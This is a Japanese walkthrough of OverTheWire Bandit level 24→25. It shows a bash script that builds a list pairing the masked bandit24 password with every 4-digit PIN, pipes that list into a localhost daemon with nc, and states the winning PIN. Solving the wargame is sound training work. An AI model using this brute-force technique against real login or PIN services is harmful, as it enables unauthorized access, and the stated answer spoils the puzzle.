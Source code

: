 ```

Bandit Level 24 → Level 25
Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
```

今回の課題は、30002番ポートで待機しているlocalhostに接続を行い、Bandit24のパスワードと正しいPINコードをスペース区切りで送るというもの。  
PINは0000~9999の範囲であり総当り攻撃で見つける。  

まずは、総当り攻撃用のリストファイルを作成する。  
```
#!/bin/bash

pass="*******************************"

for num in {0000..9999}; do
	echo $pass $num >> brutelist.txt
done
```

次にncで接続を行い、作成したリストファイルを流し込む。  

`cat brutelist.txt | nc localhost 30002`

PINコード`9297`が正しいコードだった。  

クリア。  

